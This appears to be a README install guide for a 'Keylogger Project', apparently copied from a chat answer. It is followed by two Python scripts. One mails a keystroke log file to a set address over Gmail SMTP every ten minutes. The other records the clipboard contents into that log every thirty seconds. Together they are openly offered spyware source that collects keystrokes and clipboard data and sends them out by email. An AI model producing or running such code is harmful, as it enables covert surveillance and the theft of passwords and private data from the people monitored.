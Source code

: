 # Installation Guide

This guide will help you set up the required Python environment and libraries to run the Keylogger Project.

---

## Required Python Libraries

- `pynput` — For capturing keyboard input  
- `pyperclip` — For clipboard access  
- `schedule` — For running periodic tasks  

---

## Step 1: Open Command Prompt / Terminal

- **Windows:** Press `Win + R`, type `cmd`, and press Enter.  
- **Mac:** Open Terminal from Applications > Utilities.  
- **Linux:** Open your preferred terminal emulator.

---

## Step 2: Verify Python and pip Installation

Run the following commands to verify installation:

```bash
python --version
pip --version
If either is not recognized, install Python from python.org.

Step 3: Install Required Libraries
Run this command:

bash
Copy
Edit
pip install pynput pyperclip schedule
If you encounter permission issues, try:

bash
Copy
Edit
pip install --user pynput pyperclip schedule
Or if pip is not recognized:

bash
Copy
Edit
python -m pip install pynput pyperclip schedule
Step 4: Verify Successful Installation
Run this command to confirm all libraries are installed:

bash
Copy
Edit
python -c "import pynput; import pyperclip; import schedule; print('All libraries installed successfully!')"
No errors means you’re ready!

Troubleshooting
If you have multiple Python versions, use python3 and pip3 instead of python and pip.

Ensure your PATH environment variable includes Python and pip executables.

On Linux/Mac, you might need to use sudo for global installations:

bash
Copy
Edit
sudo pip install pynput pyperclip schedule
Happy coding! If you encounter issues, feel free to open an issue on the repository.

python
Copy
Edit

---

And here are the two new code files, ready for you to add as separate `.py` files:

---

### `send_keylog.py`

```python
import smtplib
from email.mime.text import MIMEText
import time
import schedule

EMAIL_ADDRESS = "yourname@gmail.com"
EMAIL_PASSWORD = "yourapppassword"
TO_EMAIL = "receiveremail@gmail.com"
LOG_FILE = "keylog.txt"

def send_email():
    try:
        with open(LOG_FILE, "r") as f:
            content = f.read()

        msg = MIMEText(content)
        msg['Subject'] = 'Automated Keylog Report'
        msg['From'] = EMAIL_ADDRESS
        msg['To'] = TO_EMAIL

        with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp:
            smtp.login(EMAIL_ADDRESS, EMAIL_PASSWORD)
            smtp.send_message(msg)

        print("✅ Log email sent successfully!")

    except Exception as e:
        print(f"❌ Failed to send email: {e}")

# Schedule: every 10 minutes
schedule.every(10).minutes.do(send_email)

print("📧 Automated email sender running. Press CTRL+C to stop.")

while True:
    schedule.run_pending()
    time.sleep(1)
clipboard_logger.py
python
Copy
Edit
import pyperclip
import time
from datetime import datetime

LOG_FILE = "keylog.txt"
last_clipboard = ""

def capture_clipboard():
    global last_clipboard
    try:
        clipboard_data = pyperclip.paste()
        if clipboard_data != last_clipboard:
            last_clipboard = clipboard_data
            timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
            with open(LOG_FILE, "a") as f:
                f.write(f"{timestamp} - CLIPBOARD: {clipboard_data}\n")
            print(f"📋 Clipboard captured: {clipboard_data}")
    except Exception as e:
        print(f"❌ Clipboard capture error: {e}")

print("📋 Clipboard logger running. Press CTRL+C to stop.")

while True:
    capture_clipboard()
    time.sleep(30)  # Capture every 30 seconds





